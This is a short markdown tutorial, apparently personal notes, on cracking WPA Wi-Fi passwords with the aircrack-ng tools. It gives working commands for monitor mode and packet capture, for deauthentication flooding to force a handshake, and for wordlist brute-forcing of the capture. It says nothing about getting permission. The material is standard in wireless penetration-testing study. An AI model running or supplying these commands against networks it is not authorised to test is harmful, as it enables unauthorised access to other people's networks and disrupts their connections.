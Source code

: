Since WPA is a strong protocol we can't simply hack it, but we can bruteforce it!

### Useful Commands

First we want to turn on the interface in monitor mode, given that the monitor mode is supported by your card, but we have to kill the processes that interfere with the process of turning the interface into monitor mode.

```bash
# Kill the processes that interfere with starting wlan0 in monitor mode
sudo ifconfig wlan0 down
sudo kill $(pgrep NetworkManager)
sudo kill $(pgrep wpa_supplicant)
# Now put the interface in monitor mode, put the interface up and restart network manager and 
sudo airmon-ng start wlan0
```

To check if the monitor mode is on and working, we can use the following command:

```bash
sudo iwconfig
```

Now we might need to unplug the USB device then plug it back.

Then we run the following command to start capturing packets:

```bash
# Sometimes we might have to use the following command
sudo rfkill unblock wifi; sudo rfkill unblock all
sudo airodump-ng wlan0
# To only display the access point that we want, we can use the following command
sudo airodump-ng wlan0 -d <BSSID>
```

Now we can use the following command to write the captures to a file:

```bash
sudo airodump-ng -w <name of file> -c <channel> --bssid <BSSID> wlan0
```

Next ,we will disconnect a device from a network using deauth packet on another terminal so we can capture a handshake, and to do so we will use the following command:

```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0
# We can find the 4-way handshake with EAPOL packets on wireshark
```

Finally we will start brute forcing by using the following command:

```bash
aircrack-ng <.cap file> -w /usr/share/wordlists/rockyou.txt
```

Note: if we want to go back into managed mode, we can use the following commands:

```bash
sudo airmon-ng stop wlan0
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed 
sudo service NetworkManager restart  
sudo service wpa_supplicant restart
sudo ifconfig wlan0 up
```

Note: you might need to toggle Wi-Fi button from top-right menu. 

In case the network manager gets stuck, use the following commands:

```bash
sudo apt-get install --reinstall network-manager
sudo apt-get install --reinstall wpasupplicant
sudo apt-get install --reinstall isc-dhcp-client
```